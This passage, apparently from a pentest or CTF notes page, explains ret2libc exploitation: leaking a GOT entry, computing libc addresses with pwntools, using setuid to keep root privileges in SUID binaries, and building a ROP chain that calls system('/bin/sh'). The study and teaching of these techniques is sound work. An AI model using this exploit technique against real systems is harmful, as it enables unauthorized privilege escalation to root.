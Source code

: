 A second entry in the `GOT` table must be obtained:

```
objdump -D ropme | grep "GLIBC"
<ADR_PLT_FUNC>:	ff 25 22 0b 20 00    	jmpq   *0x200b22(%rip)        # <ADR_GOT_FUNC> <FUNC@GLIBC_2.2.5>
```

###### Calculate randomized libc addresses

Once the symbols offsets of the `libc` being used have been retrieved, the
randomized `libc` addresses of the process can be calculated using the leaked
printing function address:

```python
leaked_printing_func = 0x[...]

libc_printing_func = <ADR_LIBC_PRINTING_FUNC>
libc_system = <ADR_LIBC_SYSTEM>
libc_sh = <ADR_LIBC_SH>

libc_base = leaked_printing_func - libc_printing_func

# Python built-ins
sys = struct.pack('<Q', libc_base + libc_system)
sh = struct.pack('<Q', libc_base + libc_sh)

# pwntools
sys = p64(libc_base + libc_system)
sh = p64(libc_base + libc_sh)
```

###### Specificities of SUID binaries

In case of exploiting an `SUID` binary for local privilege escalation, the
privileges granted by the `SUID` bit may be dropped. Notably `libc` includes
security mitigations whenever calling `system()` with `/bin/sh` that drops the
privileges if `euid` (process effective user identifier) != `uid`
(user identifier). In case of an `SUID` binary, the `euid` corresponds to the
`uid` of the binary owner.

A call to `setuid` can be used before calling `system("/bin/sh")` to change the
`uid` of the process to the one of the binary owner, usually `0` in case of
privilege escalation to `root`.  

```bash
readelf -s <LIBC> | grep setuid
25: <00000000000ADR_LIBC_SETUID>   144 FUNC    WEAK   DEFAULT   13 setuid@@GLIBC_2.2.5
```

###### Stage 2 payload

Once the randomized addresses of `system` and `/bin/sh` in `libc` are obtained,
the following ROP chain can be used to achieve code execution:
  - with out `setuid`: `junk + pop_rdi + sh + sys`
  - with `setuid`, for `SUID` binaries, `junk + pop_rdi + 0x<EUID> + setuid + pop_rdi + sh + sys`
